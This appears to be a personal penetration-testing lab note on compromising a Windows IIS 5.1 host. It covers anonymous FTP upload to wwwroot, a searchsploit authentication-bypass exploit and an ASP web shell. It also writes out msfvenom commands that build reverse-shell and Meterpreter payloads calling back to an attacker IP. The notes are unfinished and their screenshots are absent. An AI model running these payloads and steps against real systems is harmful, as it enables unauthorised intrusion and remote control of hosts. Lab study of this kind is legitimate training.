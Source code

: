 Attack Vectors _ Searchsploit

Attack Vectors / Searchsploit

# Microsoft FTP
We are able to upload files from our attack machine /tmp/dir to the target's wwwroot directory using username anonymous without any password.It allows the put command to put any files in the wwwroot. When on a browser, we can read a .txt but cannot execute an .exe. Upload to the /Scripts directory, at least you can see the files. It won't allow to execute .exe but will let you download .php
![5b5788ccdfc6122c666c8bc51fa696f6.png](../../../_resources/39f2b240dcb742d5abef7b6db25bb3ad.png)

Create shellcode
`msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.214 LPORT=5678 -f exe > rev_shell_reverseTcp_192.168.119.214_5678.exe`
![21a5250e50c7902d138e810ebae41bb0.png](../../../_resources/16b6a1a3fd3d4b6a943ba34657a7fbfd.png)

Transfer the reverse shell to the /tmp dir
![3ef0cc7b524b82b4ad6120fed14e9b1e.png](../../../_resources/f5a8b5e38baa413d85e13b3193a3c192.png)




# Remote Desktop Web Connection

# Nikto scan
There are some interesting finds from Nikto that I havne't documented yet.

# Microsoft IIS 5.1
`searchsploit microsoft iis 5.1`
![5d477c6eee0d25e1a812fc78eb415619.png](../../../_resources/ccf07efbb714422dacfaa18c4a2aee2e.png)


# 4016 - Hit Highlighting Authentication Bypass
`searchsploit -m 4016`
This file comes with some CRLF line terminators. To get rid of them, run dos2unix file.sh
`dos2unix m4016.sh`
**Still need a screenshot of the dos2unix output**

###  Let's use an asp shell found in /usr/share/webshells/asp/cmd-asp-5.1.asp
It too must be adjusted when you see errors in linebreaks after trying to run it in browser. Here is the diff:
![ab56ab458e1f108ee9ce94fb8c918c99.png](../../../_resources/698ce8c211d44ad9a9e0109acbec8eb4.png)

### It must be transfered to wwwroot. Login as anonymous with no password, then use the put command to put it into the wwwroot directory
![e92a826753375a83b9f519be181a794f.png](../../../_resources/c9b58cf3fbef4c0a9e83641a5074ec91.png)


### Browse to the 
![c372b546ebc936aaae1a7aefb74bad6c.png](../../../_resources/648835eb658b4d86a1a56a18eab5fb89.png)


### What about meterpreter shell
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.214 LPORT=5678 -f asp > rev_windows_meterpreter_reverseTcp_192.168.119.214_5678_asp.asp`
![c91f0027026662949db6894265746793.png](../../../_resources/840d89e160c44a939ff7828f23b49b4c.png)


# ASP should we write asp code?
https://asp.net-tutorials.com/basics/hello-world/






